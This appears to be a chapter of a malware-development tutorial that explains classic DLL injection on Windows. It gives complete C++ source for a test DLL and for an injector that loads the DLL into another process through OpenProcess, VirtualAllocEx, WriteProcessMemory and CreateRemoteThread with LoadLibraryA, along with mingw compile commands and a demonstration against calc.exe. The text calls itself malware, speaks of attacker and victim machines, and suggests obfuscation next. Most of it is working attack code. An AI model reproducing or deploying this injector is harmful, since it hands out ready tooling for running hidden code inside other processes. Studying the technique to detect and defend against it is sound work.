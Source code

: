 ## 5. classic DLL injection into the process. Simple C++ malware.

![DLL injection](./images/7/2021-09-20_15-01.png){width=400px}    

In this section we will discuss about a classic DLL injection technique which are use debugging API.

About classic code injection I wrote in the previous section.

Firstly, let's go to prepare our DLL.       

There are slight difference in writing C code for `exe` and `DLL`. The basic difference is how you call you code in your module or program. In `exe` case there should be a function called `main` which is being called by the OS loader when it finishes all in initialization if a new process. At this point your program starts its execution when the OS loader finishes its job.

On the other hand with the `DLL`'s when you want to run your program as a dynamic library, it's a slighty different way, so the loader has already created process in memory and for some reason that process needs your DLL or any other DLL to be load it into the process and it might be due to the function your DLL implements.

So *exe need a main function and DLL's need DLLMain function*   
Basically that's the simplest difference.    

For simplicity, we create DLL which just pop-up a message box:    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

It only consists of `DllMain` which is the main function of DLL library. It doesn't declare any exported functions which is what legitimate DLLs normally do. `DllMain` code is executed right after DLL is loaded into the process memory.   

This is important in the context of DLL Injection, as we are looking for simplest way to execute code in the context of other process. That is why most of malicious Dlls which are being injected have most of the malicious code in `DllMain`. There are ways to force a process to run exported function, but writing your code in `DllMain` is usually the simplest solution to get code execution.   

When run in injected process it should display our message: "Meow from evil.dll!", so we will know that injection was successful. Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![DLL compile](./images/7/2021-09-20_17-01.png){width=400px}    

and put it in a directory of our choice (victim's machine):    
![put DLL](./images/7/2021-09-20_17-09.png){width=400px}

Now we only need a code which will inject this library into the process of our choosing.

In our case we are going talk about classic DLL injection. We allocate an empty buffer of a size at least the length of the path of our DLL from disk. And then we copy the path to this buffer.    

```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, 
  FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

It's pretty simple as you can see. It's same as in my classic code injection section. The only difference is we add path of our DLL from disk **(1)** and before we finally inject and run our DLL - we need a memory address of `LoadLibraryA`, as this will be an API call that we will execute in the context of the victim process to load our DLL **(2)**:    

![LoadLibraryA](./images/7/2021-09-20_18-11.png){width=400px}

So finally after we understood entire code of the injector, we can test it.
Compile it:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe
-mconsole -I/usr/share/mingw-w64/include/ -s
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```
![compile injector](./images/7/2021-09-20_18-20.png){width=400px}

Let's first launch a `calc.exe` instance and then execute our program:    

![run injector](./images/7/2021-09-20_18-25.png){width=400px}

To verify our DLL is indeed injected into `calc.exe` process we can use Process Hacker.

![Process Hacker](./images/7/2021-09-22_09-03.png){width=400px}

In another memory section we can see:    
![Process Hacker 2](./images/7/2021-09-22_09-23.png){width=400px}

It seems our simple injection logic worked! This is just a simplest way to inject a DLL to another process but in many cases it is sufficient and very useful.

If you want you can also add function call obfuscation which will be research in the future sections.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-injection-2)

In the future sections I will try to figure out more advanced code injection techniques.
